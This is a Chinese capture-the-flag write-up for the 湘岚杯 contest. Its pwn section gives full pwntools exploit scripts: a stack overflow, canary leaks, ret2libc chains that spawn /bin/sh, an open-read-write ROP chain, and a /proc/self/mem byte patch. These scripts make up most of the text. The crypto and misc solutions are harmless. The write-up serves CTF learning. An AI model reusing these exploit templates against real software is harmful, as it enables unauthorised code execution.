# 湘岚杯wp-先知社区

> **来源**: https://xz.aliyun.com/news/16596  
> **文章ID**: 16596

---

# 写在前面

i春秋冬季挑战赛和湘岚杯两头跑，结果两边都没打好（ 但不得不说湘岚杯虽是新生难度，还是出的不错的，例如宇宙射线这道题，记录一下

[TOC]

# pwn

## ret2text签到

```
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
p=remote('localhost',40777)
p.recv()
payload = b'a'*(0xa+8) + p64(0x401158)
p.sendline(payload)
p.interactive()
```

## ezlibc

开了canary的libc，可以当板子

```
from pwn import *
context.log_level='debug'
context.terminal = ['gnome-terminal','-x','sh','-c']
#STEP1
#r = process("./ezlibc")
r = remote("localhost",43679)
elf = ELF("./ezlibc")
libc = ELF("/home/gsnb/glibc-all-in-one/libs/2.27-3ubuntu1.6_amd64/libc.so.6")

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main_addr = elf.symbols['main']
rdi_addr = 0x0000000000400843

#ROPgadget --binary ezlibc --only "pop|rdi|ret"
r.recvuntil('flag!')
payload1=b'a'*(0x30-0x9)+b'b'
r.sendline(payload1)
r.recvuntil(b'ab')
canary = u64(r.recv(8))
canary = canary-0x0a
print('canary:',hex(canary))

r.recvuntil('the key')
payload1 = b'a'*(0x30-8)+p64(canary)+p64(0) + p64(rdi_addr)  + p64(puts_got)  + p64(puts_plt) + p64(main_addr)
r.sendline(payload1)
puts_addr = u64(r.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))

print("puts_addr = ", hex(puts_addr))

base_addr = puts_addr - libc.symbols['puts']
system_addr = base_addr + libc.symbols['system']
bin_sh_addr = base_addr + next(libc.search(b"/bin/sh"))
ret_addr=0x000000000040059e

payload = b'a'*(0x30-8)+p64(canary)+p64(0)+p64(ret_addr) + p64(rdi_addr) + p64(bin_sh_addr) + p64(system_addr)
r.sendline(payload)

r.interactive()

```

## sandbox



开了canary的orw，orw是纯rop链，也可以当板子



利用格式化字符串可以泄露canary，再利用溢出来打orw

```
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
r = remote('xlctf.huhstsec.top',39205)
#r = process('./attachment')
elf =ELF('./attachment')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
bss = 0x404060+0x200
r.recvuntil(b'orw?')
payload3 = b'%13$p%19$p'


r.send(payload3)
r.recvuntil(b'there is your gift
')
canary = int(r.recv(18),16) 
print(hex(canary))
#libc_base = int(r.recv(14),16) 
libc_base = int(r.recv(14),16) -0x29d90
print(hex(libc_base))
#gdb.attach(r)
#pause()

open_addr=libc_base+libc.sym['open']
read_addr=libc_base+libc.sym['read']
write_addr=libc_base+libc.sym['write']
rdi = 0x000000000002a3e5+libc_base
rsi = 0x000000000002be51+libc_base
rdx_r12 = 0x000000000011f2e7+libc_base

payload  = b'a'*0x38+p64(canary)
#调用open函数
payload +=b'/flag\x00\x00\x00'+ p64(rdi)  #这里需要放入/flag字节，来打开文件
payload += p64(bss+0x40)
payload += p64(rsi)
payload += p64(0)
payload += p64(open_addr)
#构造read函数，读取flag
payload += p64(rdi)
payload += p64(3)
payload += p64(rsi)
payload += p64(bss+0x700)
payload += p64(rdx_r12)
payload += p64(0x100)*2
payload += p64(read_addr)
#构造write函数，打印flag
payload += p64(rdi)
payload += p64(1)
payload += p64(rsi)
payload += p64(bss+0x700)
payload += p64(rdx_r12)
payload += p64(0x100)*2
payload += p64(write_addr)
 

r.recvuntil(b'it?')

payload1  = b'a'*(0x40-0x8)+p64(canary)+p64(bss+0x40)+p64(0x40135b) #read
r.sendline(payload1)
r.recvuntil(b'it?')
r.sendline(payload)                    
r.interactive()

```

## 宇宙射线

挺不错的一道题目



### /proc/self/mem（来自chatgpt）

```
/proc/self/mem 是 Linux 系统中的一个特殊文件，它代表当前进程的内存映像。以下是关于这个文件的一些关键点：

1. 特殊文件
/proc/self/mem 是 /proc 文件系统的一部分，/proc 文件系统提供了关于系统和进程的实时信息。
self 是一个指向当前进程的符号链接，因此 /proc/self/mem 实际上是指向当前进程的内存。
2. 内存访问
通过打开 /proc/self/mem，进程可以直接读取和写入其自身的内存。这使得程序能够访问其内存中的任意位置，包括堆、栈和全局变量。
```

也就是说/proc/self/mem指向的是当前正在执行的这个pwn附件



这里有两次输入，第一次是输入一个十六进制形式的地址，第二次是对这个地址的内容进行修改，这样我们就可以对这个程序内任意地方做一字节的修改，甚至是代码段（后面也上提示了）



注意到这里有一个sys\_exit,我们把它的系统调用号改了（0xCh），改一个字节成sys\_read（0x0）

快捷键d可以看修改的text段地址



调试观察sys\_read写入时的栈空间，需要填充0x12+8个垃圾字节



然后就是正常打ret2libc就行了，还需要注意的一点是这个题没有pop rdi gadget，利用程序给的key，先pop rbp，再mov rdi，rbp即可达到pop rdi的效果。



exp：

```
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
p = remote('101.43.67.25',8090)
#p = process('./pwn')
elf =ELF('./pwn')
libc = ELF('./libc.so.6')
rbp = 0x4012a2
rdi_rbp = 0x40129e
ret = 0x4012a3

#gdb.attach(p)
#pause()
p.recvuntil(b'cosmic rays:')
p.sendline(b'0x401562')
p.recvuntil(b'data sent:')
p.sendline(b'0')

payload = b'a' * (0x12+8) + p64(rbp) + p64(elf.got["puts"]) + p64(rdi_rbp) + p64(0) + p64(elf.sym["puts"]) + p64(0x401309)
p.send(payload)
p.recvuntil(b'
')
libc_base =  u64(p.recv(6).ljust(8,b'\x00')) - libc.sym["puts"]
print(hex(libc_base))

p.recvuntil(b'cosmic rays:')
p.sendline(b'0x401562')
p.recvuntil(b'data sent:')
p.sendline(b'0')

system_addr = libc_base + libc.symbols['system']
bin_sh_addr = libc_base + next(libc.search(b"/bin/sh"))

payload = b'a'*(0x12+8) +p64(ret) + p64(rbp) + p64(bin_sh_addr) + p64(rdi_rbp) + p64(0) + p64(system_addr)
p.send(payload)

p.interactive()

```

# crypto

## RSA就是数学口牙（签到）

```
import gmpy2  
from sympy import symbols, Eq, solve  

# Given values  
sum_pq = 0x1232fecb92adead91613e7d9ae5e36fe6bb765317d6ed38ad890b4073539a6231a6620584cea5730b5af83a3e80cf30141282c97be4400e33307573af6b25e2ea  
prod_pq_plus1 = 0x5248becef1d925d45705a7302700d6a0ffe5877fddf9451a9c1181c4d82365806085fd86fbaab08b6fc66a967b2566d743c626547203b34ea3fdb1bc06dd3bb765fd8b919e3bd2cb15bc175c9498f9d9a0e216c2dde64d81255fa4c05a1ee619fc1fc505285a239e7bc655ec6605d9693078b800ee80931a7a0c84f33c851740  
ciphertext = 0x21bfef2961c512fbb81fd75ca1c38cbc810dee21d04de1e749c9a24cc975447acc1098228108f25a5ab4840212b2c0f305aabb17ee6835599425ffeedb85698ff9edbc70d9e87acd5232526304948f806c0283776d3eb217599e06616a12d899b14723bfeb29becb10e464247760f828463eb4f0536244771c648b6445fab855  
e = 0xe6b1bee47bd63f615c7d0a43c529d219  

# Solve for p and q  
p, q = symbols('p q', integer=True)  
eq1 = Eq(p + q, sum_pq)  
eq2 = Eq((p + 1) * (q + 1), prod_pq_plus1)  
solutions = solve((eq1, eq2), (p, q))  
p = int(solutions[0][0])  
q = int(solutions[0][1])  

# Calculate n and phi  
n = p * q  
phi = (p - 1) * (q - 1)  

# Calculate the private key d  
d = gmpy2.invert(e, phi)  

# Decrypt the ciphertext  
m = pow(ciphertext, d, n)  

# Convert the decrypted message to a string  
flag = bytes.fromhex(hex(m)[2:]).decode()  

print("Flag:", flag)
```

## 你真的懂社会主义核心价值观吗

先社会主义核心价值观再base64




# misc

## 宇宙编史

零宽隐写



## base64游戏

题目是一个远程加密器，会对你的输入进行base64编码，如果得到了base64编码表，就能拿到flag

已知：base64原表 base64编码前后的数据

求：base64换的表

将原表进行解码后再去程序编码，得到的就是换后的码表



exp：

```
from pwn import*
import base64
p = remote("xlctf.huhstsec.top",40662)
encoded_str = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"
decoded_bytes = base64.b64decode(encoded_str)   #解码
print(decoded_bytes)

p.sendlineafter(b'encode:', decoded_bytes)
p.recvuntil(b'Encode: ')
p.interactive()
```


